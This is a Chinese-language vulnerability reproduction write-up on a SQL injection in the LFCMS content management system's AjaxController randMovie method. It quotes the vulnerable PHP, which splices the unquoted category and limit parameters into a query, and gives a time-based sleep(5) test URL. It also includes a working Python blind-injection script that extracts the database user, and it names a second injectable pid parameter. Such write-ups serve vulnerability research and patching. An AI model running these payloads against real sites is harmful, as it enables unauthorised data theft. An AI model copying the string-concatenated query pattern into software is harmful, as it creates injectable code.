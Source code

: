 LFCMS AjaxController.class.php 前台sql注入漏洞
==============================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

漏洞起始点位于`/Application/Home/Controller/AjaxController.class.php`文件中的`randMovie`方法，代码如下

![1.png](./resource/LFCMSAjaxController.class.php前台sql注入漏洞/media/rId24.png)

第七行代码中调用了`Ajax`模型中的`randMovie`方法，同时`limit`和`category`是我们输入的可控的参数，跟进`randMovie`方法

    public function randMovie($limit=6,$category='') {
        if($category) {
            $type='and category='.$category;
        }
        $prefix=C('DB_PREFIX');
        $mlist=M()->query('SELECT * FROM `'.$prefix.'movie` AS t1 JOIN (SELECT ROUND(RAND() * ((SELECT MAX(id) FROM `'.$prefix.'movie`)-(SELECT MIN(id) FROM `'.$prefix.'movie`))+(SELECT MIN(id) FROM `'.$prefix.'movie`)) AS idx) AS t2 WHERE t1.id >= t2.idx '.$type.' ORDER BY t1.id LIMIT '.$limit);
        foreach($mlist as $key=>$value) {
            $list[$key]=D('Tag')->movieChange($value,'movie');
        }
        return $list;
    }

在这里注意到`$type`与`$limit`在`sql`语句执行时均没有被单引号包裹，直接拼接到语句当中，这里就存在了sql注入的可能，首先我们在`movie`表里放一条数据，看一下正常执行时sql语句是如何执行的

![2.png](./resource/LFCMSAjaxController.class.php前台sql注入漏洞/media/rId25.png)

查看数据库日志可以得到如下`sql`语句

    SELECT * FROM `lf_movie` AS t1 JOIN (SELECT ROUND(RAND() * ((SELECT MAX(id) FROM `lf_movie`)-(SELECT MIN(id) FROM `lf_movie`))+(SELECT MIN(id) FROM `lf_movie`)) AS idx) AS t2 WHERE t1.id >= t2.idx and category=2 ORDER BY t1.id LIMIT 1

接着来尝试下进行注入，测试链接如下

    http://www.0-sec.org/index.php/Ajax/randMovie?limit=1&category=2 and sleep(5)

页面确实延迟了5秒，那么接着看一下后端数据库的语句

    SELECT * FROM `lf_movie` AS t1 JOIN (SELECT ROUND(RAND() * ((SELECT MAX(id) FROM `lf_movie`)-(SELECT MIN(id) FROM `lf_movie`))+(SELECT MIN(id) FROM `lf_movie`)) AS idx) AS t2 WHERE t1.id >= t2.idx and category=2 and sleep(5) ORDER BY t1.id LIMIT 1

基本可以判断该处存在着可用的注入点，接下来编写脚本跑一下数据库用户名试试

    import requests
    url = 'http://www.0-sec.org/index.php/Ajax/randMovie?limit=1&category=2 and '
    s = requests.session()
    result = ""
    for i in range(1,50):
        print('==========================')
        for j in range(32,127):
            payload = "if((ascii(substr((select user()),{},1))={}),sleep(5),0)".format(i,j)
            temp = url+payload
            try:
                s.get(temp,timeout=5)
            except:
                result+= chr(j)
                print(result)
                break

![3.png](./resource/LFCMSAjaxController.class.php前台sql注入漏洞/media/rId26.png)

相同原理的利用点同样不止一个，如`/Application/Home/Controller/PlayerController.class.php`文件中的`down`方法调用了模型`movie`中的`getPlayerUrl`方法，该方法的`pid`参数同样可以注入

参考链接
--------

> https://xz.aliyun.com/t/7844
